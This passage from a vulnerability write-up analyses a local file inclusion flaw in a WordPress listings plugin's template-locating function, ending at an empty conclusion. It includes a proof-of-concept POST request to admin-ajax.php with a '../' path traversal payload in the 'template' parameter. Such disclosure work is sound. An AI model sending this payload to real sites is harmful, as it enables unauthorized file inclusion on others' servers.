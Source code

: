 This function iterates over `$templates` to locate a valid template path:

* Appends `.php` if missing.

* If the path contains `'partials/'`, it calls `locate_template( $template )`.

* Otherwise, it looks inside `'listings/'`.

* If still not found, it checks directly inside the plugin path:

  ```
  STM_LISTINGS_PATH . '/templates/' . $template
  ```

* Once a valid file is found, the loop breaks and returns that path.

[`locate_template()`](https://developer.wordpress.org/reference/functions/locate_template/) is a **WordPress core** function that searches the active theme for the given template file. If found, it returns the full path; otherwise, it returns an empty string — meaning we need to reference an existing file.

👉 The result is returned via the filter `stm_listings_locate_template` as `$locate`.

{{< figure src="search1.png" caption="No filter registered for `stm_listings_locate_template`" >}}

No filters are registered for this hook, meaning `$locate` is returned unchanged.

Therefore, the conditions required for exploitation are:

* The `template` parameter includes `partials/` or `listings/`.
* Sufficient `../` traversal so that `locate_template()` returns empty but `include` does not error when the path exists.

## Exploit

### Proof of Concept (PoC)

1. Add a simple test code to `wp-config.php`:

```php
<?php
echo "payload"
```

2. Send a POST request containing the LFI payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
action=grid_tabs_widget&tab_type=popular&per_page=8&template=/partials/../../../../../payload&img_size=&security=d15dd83890
```

**Result:**

{{< figure src="result.png" caption="Successful LFI result" >}}

## Conclusion
